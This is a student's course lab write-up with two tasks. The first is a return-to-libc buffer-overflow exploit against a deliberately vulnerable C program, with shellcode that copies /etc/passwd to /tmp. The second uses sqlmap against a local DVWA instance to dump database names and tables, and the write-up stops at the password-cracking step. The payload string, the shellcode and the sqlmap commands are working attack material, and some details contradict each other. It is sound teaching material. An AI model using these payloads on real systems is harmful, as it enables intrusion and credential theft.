# Lab #1,22110076, Tran Trung Tin, INSE33038E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

## 1. Build image docker for this lab:

Clone this git to set up docker

```
git clone https://github.com/quang-ute/myprojects.git
```

Then we build image from this folder

```
docker build -t img4lab .
```

Enter terminal of this virtual computer

```
docker run -it --privileged -v C:/Users/Admin/seclabs:/home/seed/seclabs img4lab
```

## 2. Compile asm program and C program:

```
nasm -f elf32 -o file_copy.o file_copy.asm
```

```
ld -m elf_i386 -o file_copy file_copy.o
```

```
gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2
```

## 3. Turn off ASLR  (Address Space Layout Randomization)

```
sudo sysctl -w kernel.randomize_va_space=0
```



## 4. Create an environment variable in Linux with the path of file_copy

```
export exploit_path="/home/seed/seclabs/bof/midterm/file_copy"
```



From that picture we know that we successfully creat env variable on system.

## 5. Analyze the stack frame



The vulnerable we can attack is the function below, the buffer variable can get the string which is longer than it. 

```
char buffer[16];
strcpy(buffer, argv[1]);
```

If we want to exploit
- 20 bytes to overwrite buf and ebp
- 4 bytes to overwrite ret addr of vuln with the address of system
- 4 bytes for the address of exit
- 4 bytes for argument of system (exploit path that we created before)

```
r $(python -c "print(20*'a' + 'address of system' + 'address of exit' + 'address of env var')")
```

## 6. Use gdb to get address

Use gdb for this c program

```
gdb -q vuln.out
```

Start the code

```
start
```

Print out the address of those things

```
print system
print exit
find /home/seed/seclabs/bof/midterm/file_copy
```



- 0xf7e50db0: Address of libc_system
- 0xf7e449e0: Address of exit to avoid crashing
- 0xffffdf59: Address of env variable

Therefore, the final command is

```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x59\xdf\xff\xff')")
```

## 7. Start the attack

Before the attack



The attack start

```
gdb -q vuln.out
```

```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x59\xdf\xff\xff')")
```

After that, we use the code below to read file we have just copied

```
cat /tmp/outfile
```



After attacking, we see that the asm program copy /etc/passwd to /tmp/outfile, not /tmp/pwfile

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
## 1. Set up environment

Clone dvwa from github

```
git clone https://github.com/digininja/DVWA.git
```

Then, we build by using docker

```
docker-compose up -d
```

DVWA is now available at http://localhost:4280



Clone sqlmap from github

```
git clone https://github.com/sqlmapproject/sqlmap.git
```

## 2. Use sqlmap

First of all, we have to set the security level of website at low



And then, we copy the cookies



Enter a function that we can exploit

```
http://localhost:4280/vulnerabilities/sqli/?id=&Submit=Submit#
```



Use the command below to get information about all available databases

```
python sqlmap.py -u "http://localhost:4280/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --cookie="PHPSESSID=c3243e5dcda438603c9d3ae
ce31e8670; security=low" --dbs
```

After waiting for sqlmap scan the website, we get the result



After running second time



**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

```
python sqlmap.py -u "http://localhost:4280/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --cookie="PHPSESSID=c3243e5dcda438603c9d3aece31e8670; security=low" -D dvwa --tables
```

The result after waiting for sqlmap


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
